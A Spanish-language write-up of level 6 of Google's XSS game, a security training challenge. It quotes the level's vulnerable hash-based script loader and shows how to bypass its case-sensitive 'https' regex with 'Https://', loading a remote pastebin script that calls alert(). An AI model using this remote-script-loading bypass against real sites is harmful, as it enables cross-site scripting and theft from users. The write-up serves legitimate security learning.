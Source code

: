#[6/6]  Level 6: Follow the 🐇

#Mission Description

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

#Mission Objective

Find a way to make the application request an external file which will cause it to execute an alert(). 

# Write Up Iker 

Primero que nada vamos a mirar el código fuente de la página para analizar correctamente la prueba.

Observando la foto del index.html y su contenido parece que sólamente nos deja cargar los scripts de la carpeta **/static/gadget.js** que luego ejecuta el contenido en el navegador.

```javascript
getGadgetName() 
{ 
  return window.location.hash.substr(1) || "/static/gadget.js";
}
```

Además tiene un código que evita que se pueda cargar scripts desde una URL con el siguiente código:

```javascript
// This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
````

Aquí podemos pensar en dos maneras para ejecutar el código:
  - 1 Intentar modificar el contenido de ```/static/gadget.js```
  - 2 Intentar hacer un **Bypass** de la comprobación de obtener y ejecutar el script mediante una URL 

Vaya, vaya, vaya...se pone algo complicado...

Tras muchas vueltas, hemos elegido la segunda opción por la siguiente razón: **REGEX** y **CASE SENSITIVE**
¿Porque? Porque el Regex de la consulta sólamente verifica que la URL sea **"https?"**, es decir, que si ponemos **"Https?** o ****"hTtps?** o **"hTTps?** etc nos dejaría hacer el Bypass ya que el resultado no coincidiría y podríamos cargar el script desde una URL.

Ahora tenemos que conseguir conlgar nuestro script en alguna URL y montar la URL de la consulta para que pueda ejecutarla.
La mejor página para hacer esto es **www.pastebin.com**. Te permite escribir un código HTML, JavaScript, etc, colgarlo online y ponerle fecha de expiración.

Creamos el script de alerta en pastebin.com y copiamos la URL:

En este caso hemos creado la siguiente URL: ```html https://pastebin.com/raw/15S5qZs0```

Y tenemos la siguiente URL completa para pasarsela al navegador:

https://xss-game.appspot.com/level6/frame#https://pastebin.com/raw.php?i=15S5qZs0

**ERROR**!!! Recordar el **REGEX** que es **CASE SENSITIVE** y que debemos cambiar algún parámetro del https

Ahora quedaría de esta forma (modificamos la **H** del principio del **https** a **MAYUSCULAS** así **Https**:

https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw.php?i=15S5qZs0

Nos muestra un cuadre de texto indicando que hemos pasado de nivel y completado el Juego de XSS de Google :)

Iker Burguera

